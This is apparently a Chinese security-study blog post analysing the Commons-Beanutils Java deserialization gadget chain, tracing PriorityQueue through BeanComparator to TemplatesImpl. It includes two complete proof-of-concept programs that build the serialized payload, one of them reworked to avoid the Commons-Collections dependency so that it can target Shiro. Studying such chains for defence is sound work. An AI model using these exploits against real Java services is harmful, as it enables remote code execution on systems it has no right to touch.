








# 0x01前言

前面分析完了CC链，中间间隔了一个多星期吧，摆了一个多星期，期末考加上考完试就飞北京，另外重新做了一遍ctfshow的命令执行，主要是感觉生疏了，反正这阵子忙忙碌碌的，刚好上一天班放了个周末，不过明天就要正式工作上班了

参考文章：

https://infernity.top/2024/04/24/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CB%E9%93%BE/

# 0x02漏洞描述

CB链是类似于我们前面分析的CC链的一种反序列化链子，是基于Apache Commons项目下Commons-beanutils库利用的一种反序列化漏洞的利用链。

**Commons-Beanutils** 是 Apache Commons 项目下的一个常用 Java 库，它提供了一些实用的工具类来操作 Java Bean 的属性。

# 0x03影响版本

jdk：jdk8u65

CB：commons-beanutils 1.8.3

commons-logging:1.2

在pom.xml中添加项目

```xml
<dependency>
      <groupId>commons-beanutils</groupId>
      <artifactId>commons-beanutils</artifactId>
      <version>1.8.3</version>
    </dependency>
    <dependency>
      <groupId>commons-logging</groupId>
      <artifactId>commons-logging</artifactId>
      <version>1.2</version>
    </dependency>
```

# 0x04关于Javabean

CommonsBeanutils 是应用于 javabean 的工具，它提供了对普通Java类对象（也称为JavaBean）的一些操作方法

那 什么是JavaBean呢？

**JavaBean** 是一种特殊的 Java 类，它遵循一定的命名约定和设计模式，目的是为了组件的**可重用性、易用性**和在不同环境（如可视化开发工具、框架）中的**互操作性**。可以把 JavaBean 想象成一个标准化的、自包含的软件组件，它能够通过简单的方式被其他组件或工具使用和操作。

一个 Java 类要被称为 JavaBean，通常需要满足以下约定：

- 无参构造器

该类必须有一个公共的、无参数的构造器，这样，外部工具（如反射、框架）就可以很容易地创建JavaBean实例而不需要知道如何传递特定参数

- 有一个无参的公共的构造器
- JavaBean类通常会包含一些私有属性，而每个属性都通过一对公共的 **Getter 方法** 和 **Setter 方法** 来访问和修改。
- 对于boolean类型的成员变量，允许使用"is"代替上面的"get"和"set"

我们写一个简单的JavaBean类

```java
package CBchains;

public class JavaBeanTest {
    private String name;
    private int age;

    public String getName(){
        return name;
    }

    public void setName(String name){
        this.name = name;
    }

    public int getAge(){
        return age;
    }

    public void setAge(int age){
        this.age = age;
    }
}
```

在commons-beanutils的java库中的PropertyUtils类能够动态调用getter/setter方法，获取属性值。

- getProperty：返回指定Bean的指定属性的值
- getSimpleProperty：返回指定Bean的指定属性的值
- setProperty：设置指定Bean的指定属性的值
- setSimpleProperty：设置指定Bean的指定属性的值

我们可以试一下

```java
package CBchains.POC;
import org.apache.commons.beanutils.PropertyUtils;

public class JavaBeanTest {
    public static void main(String[] args) throws Exception{
        JavaBeanTest test = new JavaBeanTest();
        test.setAge(20);
        test.setName("John");

        //利用PropertyUtils获取属性值
        String name1 = (String) PropertyUtils.getProperty(test, "name");
        System.out.println(name1);

        int age1 = (int) PropertyUtils.getProperty(test, "age");
        System.out.println(age1);

        //利用PropertyUtils设置属性值
        PropertyUtils.setProperty(test, "name","wanth3flag");
        System.out.println(test.getName());

        PropertyUtils.setProperty(test, "age",21);
        System.out.println(test.getAge());

    }
    private String name;
    private int age;

    public String getName(){
        return name;
    }

    public void setName(String name){
        this.name = name;
    }

    public int getAge(){
        return age;
    }

    public void setAge(int age){
        this.age = age;
    }
}
/*
John
20
wanth3flag
21
*/
```

这里的setProperty和getProperty实际上和JavaBean中getter和setter方法没什么区别

# 0x05链子分析

commons-beanutils中提供了一个静态方法`PropertyUtils.getProperty()`，可以让使用者直接调用任意JavaBean的getter方法

我们来看看该方法的定义

```java
    public static Object getProperty(Object bean, String name) throws IllegalAccessException, InvocationTargetException, NoSuchMethodException {
        return PropertyUtilsBean.getInstance().getProperty(bean, name);
    }
```

这里的话接收两个参数，一个是JavaBean实例，一个是JavaBean的属性，具体的上面我们也试过了，很好理解这个点

需要注意的是，`PropertyUtils.getProperty` 还支持递归获取属性，比如a对象中有属性b，b对象中有属性c，我们可以通过 `PropertyUtils.getProperty(a, “b.c”); `的方式进行递归获取。

回顾一下之前的CC3，是通过利用TemplatesImpl类的方法去动态加载恶意类从而进行RCE的

```java
TemplatesImpl::newTransformer()->
    TemplatesImpl::getTransletInstance()->
        TemplatesImpl::defineTransletClasses()->
            TemplatesImpl::defineClass()->
                恶意类代码执行
```

然后我们再看看CC2/CC4的链子，其实就是CC1的另一种分支，是通过TransformingComparator#compare()去触发transform方法的调用从而实现RCE的

```java
PriorityQueue#readObject()
    PriorityQueue#heapify()
        PriorityQueue#siftDown()    
            PriorityQueue#siftDownUsingComparator()
                    TransformingComparator#compare()
    					ChainedTransformer#transform()
                        	InstantiateTransformer#transform()
                            	TemplatesImpl#newTransformer()
                                	defineClass()->newInstance()
```

而我们的Commons-beanutils利用链中的核心触发位置就是`BeanComparator.compare()` 函数，`BeanComparator.compare()` 函数内部会调用getProperty()方法，进而可以调用JavaBean中对应属性的getter方法

## BeanComparator.compare()

我们看一下`BeanComparator.compare()` 函数



这里会调用PropertyUtils#getProperty()方法

我们分析一下这个函数的步骤

- 这个方法接收两个对象传入，如果 `property` 变量是 `null`则直接比较这两个对象，这时候会直接用comparator实例的compare方法对这两个对象进行比较
- 如果`this.property`不为空，则用`PropertyUtils.getProperty`分别取这两个对象的`this.property`属性，比较属性的值。

在 ysoserial 中利用其来调用了 Temlatesimpl.getOutputProperties() 方法也就是Temlatesimpl类中的 `_outputProperties` 属性的 getter 方法

所以这里让 o1 为templates对象，然后property为TemplatesImpl的 `_outputProperties` 属性，即可调用 `TemplatesImpl.getOutputProperties()`， 往下就是TemplatesImpl的利用链。

我们来看一下BeanComparator的构造函数

```java
    public BeanComparator( String property ) {
        this( property, ComparableComparator.getInstance() );
    }
```

公共属性，那我们就可以处理这个property属性的值了，写个poc

```java
BeanComparator comparator = new BeanComparator("outputProperties");
```

在ysoserial中是利用的无参构造器实例化一个BeanComparator对象并用反射去进行操作变量的

```java
    public static void main(String[] args) throws Exception {
        BeanComparator comparator = new BeanComparator();
        setFieldValue(comparator, "property", "outputProperties");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
```

然后就会调用到`TemplatesImpl.getOutputProperties()`，这个方法可以调用`newTransformer()`

那么我们接着往上找，哪里调用 compare()呢？

我们可以用到CC2/CC4中的PriorityQueue#readObject()方法

## PriorityQueue#readObject()

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

heapify()里面的size的值应该大于等于2，这个在之前CC4/CC2链的时候都讲过，然后在对size赋值的时候是有两种方法，一种是直接赋值一种是用自带的add方法去赋值，而add()也会执行compare由于在BeanComparator#compare() 中，如果 this.property 为空，则直接比较这两个对象。这里实际上就是对1、2进行排序。所以在初始化的时候，我们add任意值，然后利用反射修改成恶意TemplateImpl 对象



```java
        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue<Object>(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(comparator, "property", "outputProperties");
```

跟CC2/CC4不同的是，CC2/CC4是通过调用TransformingComparator#compare()调用transform方法的，而这里是通过BeanComparator#compare()去调用getter，因此还需要控制 BeanComparator.compare()的参数为恶意templates对象

所以最终的CB链

# 0x06最终CB链

```java
PriorityQueue类：
PriorityQueue#readObject()
    PriorityQueue#heapify()
        PriorityQueue#siftDown()    
            PriorityQueue#siftDownUsingComparator()
    
//compare方法->getter方法
->BeanComparator#compare()
    ->PropertyUtils#getProperty()

TemplatesImpl类：
            ->TemplatesImpl#getOutputProperties()
                TemplatesImpl#newTransformer()
                    ->TemplatesImpl#getTransletInstance()
                        ->TemplatesImpl#defineTransletClasses()
                            ->TemplatesImpl#defineClass()
TransletClassLoader类：
                                ->defineClass()
```

# 0x07编写POC

## POC1(with CC依赖)

```java
package CBchains.POC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CBPOC {
    public static void main(String[] args) throws Exception {
        //CC3
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\CCchains\\CC3\\POC.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        //CB&&add()方法
        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue<Object>(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(comparator, "property", "outputProperties");//修改property触发getter方法
        setFieldValue(queue,"queue",new Object[]{templates,templates});// 设置BeanComparator.compare()的参数

        serialize(queue);
        unserialize("CBchains.txt");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CBchains.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



成功触发，但是这个是需要CC依赖的，是否有不需要CC依赖的呢？答案是有的，这个的话等复现shiro550的时候再学吧

# 为什么说是需要CC依赖

在上面CB链的POC中可以看到是用到了BeanComparator类的，而这个类其实是有导入CC依赖的



换成Shiro550打上面的链子会出现报错，表示没找到`org.apache.commons.collections.comparators.ComparableComparator`类，从全类名可以看到整个类其实是来自CC依赖的，不过换句话来说，commons-beanutils本来依赖于commons-collections，但是在Shiro中，它的commons-beanutils虽 然包含了一部分commons-collections的类，但却不全。这也导致了我们在用上面的poc打Shiro550的时候会失败

那我们尝试找找不需要CC依赖的CB链呢

# Without CC依赖的Shiro反序列化链

我们先看看为什么我们上面的poc会用到CC依赖

看看`org.apache.commons.collections.comparators.ComparableComparator`这个类在哪里使用了



在`BeanComparator`类的构造函数处，如果没有显式传入`Comparator`的情况下，就会默认使用ComparableComparator作为比较器

跑一下poc会发现，就算我们是调用的无参构造函数，但是还是会逐步执行到有参构造函数中



既然是不需要ComparableComparator，那我们需要另外找一个类进行替代，该类需要满足以下条件：

- 实现java.util.Comparator接口和java.io.Serializable接口
- 该类仅仅是CB依赖，Shiro，或者java原生自带

对于commons-beanutils中，只有BeanComparator这一个类满足，我们去查找一下JDK中的类

其实还是很多的，例如`java.util.Collections$ReverseComparator`或者`java.lang.String$CaseInsensitiveComparator`

然后进行反射赋值给comparator就行了

```java
setFieldValue(beanComparator, "comparator", Collections.reverseOrder());
setFieldValue(comparator, "comparator", String.CASE_INSENSITIVE_ORDER);
```

先看第一个，reverseOrder函数最后会返回一个ReverseComparator2实例



然后第二个也是一样的



## POC2(without CC依赖)

```java
package SerializeChains.CBchains;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Collections;
import java.util.PriorityQueue;

public class CB_without_CC {
    public static void main(String[] args) throws Exception {
        //CC3
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        //CB&&add()方法
        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue<Object>(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(comparator, "property", "outputProperties");//修改property触发getter方法
        setFieldValue(queue,"queue",new Object[]{templates,templates});// 设置BeanComparator.compare()的参数
        setFieldValue(comparator, "comparator", String.CASE_INSENSITIVE_ORDER);
        //setFieldValue(comparator, "comparator", Collections.reverseOrder());

        serialize(queue);
        unserialize("CBchains.txt");
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        Templates templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "wanth3f1ag");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CBchains.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```
